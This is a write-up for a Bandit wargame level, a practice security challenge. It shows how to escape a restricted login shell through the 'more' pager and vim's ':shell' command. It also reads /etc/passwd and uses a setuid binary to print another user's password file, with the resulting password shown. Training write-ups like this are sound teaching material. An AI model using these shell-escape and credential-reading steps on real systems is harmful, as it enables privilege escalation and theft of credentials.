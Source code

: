 Relevant Material: `ssh` , `bash` , `sh` , `vi`

### Solution

```bash
$ ssh -i bandit26.sshkey bandit26@localhost ## logs you in and then immediately logs you out
$ cat /etc/passwd ## investigate the shell for bandit26
...
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
...
$ cat /usr/bin/showtext
##!/bin/sh

export TERM=linux

more ~/text.txt
exit 0
## now minimize the terminal to the point that the content of text.txt i.e.,
## 'bandit26' graphic is not completely displayed
## and a (more) option is shown
## then, type 'v' to open a vim editor
## then type:
:set shell=/bin/bash
:shell
$ ls ## shows a binary bandit27-do
## use this setuid binary to access password for bandit27
$ bandit27-do cat /etc/bandit_pass/bandit27
3ba3118a22e93127a4ed485be72ef5ea
```

### Explanation

Logging into level 26 is easy as it is similar to [Level 13 → Level 14](##15-Level-13-→-Level-14). But the shell for `bandit26` is not the usual `/bin/bash`. So, we have to access it indirectly! First, we investigate what the shell script is by accessing the contents of `/etc/passwd` which reveals that the shell for `bandit26` is actually a text file which displays the graphic `bandit26`. Now, to access the normal shell we must get the *more* option that allows us to access the `vim` editor where we can run *shell commands.* To access this, we minimize the window to a size where the graphic isn't fully displayed. Then, once that graphic does appear, we get the (more) option. Then, we type `v` to access the vim editor. In the editor, we go to the command mode (if not already there) using the `ESC` key and type the following commands

```bash
:set shell=/bin/bash
:shell
## to exit vim, type ESC to go to the command mode (if not already there)
## then type the following:
## :q!
## this means quit without saving any changes made
```

This opens up the normal shell when we can run commands. We see that there is a setuid binary called `bandit27-do` in the home directory which we can use to run commands as `bandit27`. Thus, we can access the password for `bandit27`.
